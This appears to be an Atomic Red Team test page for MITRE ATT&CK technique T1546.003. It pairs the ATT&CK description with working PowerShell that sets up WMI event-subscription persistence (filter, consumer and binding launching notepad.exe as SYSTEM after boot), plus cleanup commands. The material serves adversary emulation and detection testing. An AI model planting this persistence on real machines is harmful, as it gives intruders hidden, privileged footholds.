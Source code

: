 # T1546.003 - Windows Management Instrumentation Event Subscription
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1546.003)
<blockquote>Adversaries may establish persistence and elevate privileges by executing malicious content triggered by a Windows Management Instrumentation (WMI) event subscription. WMI can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Examples of events that may be subscribed to are the wall clock time, user loging, or the computer's uptime. (Citation: Mandiant M-Trends 2015)

Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system. Adversaries may also compile WMI scripts into Windows Management Object (MOF) files (.mof extension) that can be used to create a malicious subscription. (Citation: Dell WMI Persistence) (Citation: Microsoft MOF May 2018)

WMI subscription execution is proxied by the WMI Provider Host process (WmiPrvSe.exe) and thus may result in elevated SYSTEM privileges.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence via WMI Event Subscription](#atomic-test-1---persistence-via-wmi-event-subscription)


<br/>

## Atomic Test #1 - Persistence via WMI Event Subscription
Run from an administrator powershell window. After running, reboot the victim machine.
After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af

https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
